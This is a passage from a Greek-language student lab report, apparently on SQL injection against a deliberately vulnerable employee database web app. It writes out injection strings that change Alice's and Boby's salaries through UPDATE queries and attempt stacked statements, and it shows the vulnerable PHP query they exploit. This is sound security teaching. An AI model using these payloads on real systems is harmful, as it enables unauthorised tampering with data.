			
\includegraphics[width=1\textwidth]{image/d2.5.2.PNG}		
\end{center}

\begin{center}
			
\includegraphics[width=1\textwidth]{image/d2.5.PNG}		
\end{center}

\subsection{Προσάρτηση μιας νέας δήλωσης SQL}
\subsection*{Απάντηση:}

\noindent 
Για να εκτελέσουμε παραπάνω από μια εντολές μπορούμε να χρησιμοποιήσουμε τον χαρακτήρα ;
που συμβολίζει το τέλος εντολής στην MySQL. Επομένως μια εντολή σαν την παρακάτω θα έπρεπε να εκτελεστεί 
κανονικά.
\begin{center}
	\begin{lstlisting}	
' OR Name='admin'; 
update credential 
set Salary=80000 
where name='Alice';#
	\end{lstlisting}	
\end{center}

\begin{center}
			
\includegraphics[width=1\textwidth]{image/d2.6.PNG}		
\end{center}

\begin{center}
			
\includegraphics[width=1\textwidth]{image/d2.6.1.PNG}		
\end{center}
\noindent
Οπός παρατηρούμε ώμος μας βγάζει error. Αυτό συμβαίνει γιατί στον php κώδικα 
χρησιμοποιείται η εντολή, \\ \textbf{\$mysqli-$>$query()}.\\ Η οποία επιτρέπει τη εκτέλεση μόνο μιας εντολής.
Εάν θέλαμε να εκτελέσουμε παραπάνω θα έπρεπε να την αντικαταστήσουμε με την εντολή,\\ \textbf{\$mysql-$>$multi\_query()}.

\section{Επίθεση SQL Injection σε εντολή UPDATE}

\subsection{Τροποποιήστε το δικό σας μισθό}
\noindent
Για να αλαλάξουμε των μισθό μας αν υποθέσουμε ότι είμαστε η Alice θα χρησιμοποιήσουμε
την παρακάτω είσοδο στο πεδίο Όνομα.
\begin{center}
	\begin{lstlisting}
',Salary=65536 where Name ='Alice';#
	\end{lstlisting}	
\end{center}

\noindent
Στον κώδικα της php υπάρχει ένα query της μορφής οπός το παρακάτω.

\begin{center}
	\begin{lstlisting}
UPDATE credential SET nickname='$input_nickname',
email='$input_email',address='$input_address',
Password='$hashed_pwd',PhoneNumber='$input_phonenumber' 
where ID=$id;
	\end{lstlisting}	
\end{center}

Όταν επιλέξουμε save το query που θα δημιουργηθεί είναι της μορφής,

\begin{center}
	\begin{lstlisting}
UPDATE credential SET nickname='',
Salary=65536 where Name ='Alice';#',
email='',address='',Password='',PhoneNumber='' 
where ID=$id;
	\end{lstlisting}	
\end{center}
\newpage
\noindent
και τελικά αυτό που θα εκτελεστή λόγο του \# είναι της μορφής

\begin{center}
	\begin{lstlisting}
UPDATE credential SET nickname='',
Salary=65536 where Name ='Alice';
	\end{lstlisting}	
\end{center}

\begin{center}
			
\includegraphics[width=1\textwidth]{image/3.1.1.PNG}		
\end{center}
\begin{center}
			
\includegraphics[width=1\textwidth]{image/3.1.2.PNG}		
\end{center}
\begin{center}
			
\includegraphics[width=1\textwidth]{image/3.1.3.PNG}		
\end{center}

\subsection{Τροποποίηση μισθού άλλων υπαλλήλων}
\noindent
Για να αλαλάξουμε των μισθό του Boby σε 1 από την Alice θα χρησιμοποιήσουμε
τον ίδιο τρόπο οπός και στην προηγούμενη δραστηριότητα, δίνοντας την παρακάτω είσοδο
αλά αυτήν την φορά στο where θα βάλουμε το όνομα του Boby.

\begin{center}
	\begin{lstlisting}
',Salary=1 where Name ='Boby';#
	\end{lstlisting}	
\end{center}

\begin{center}
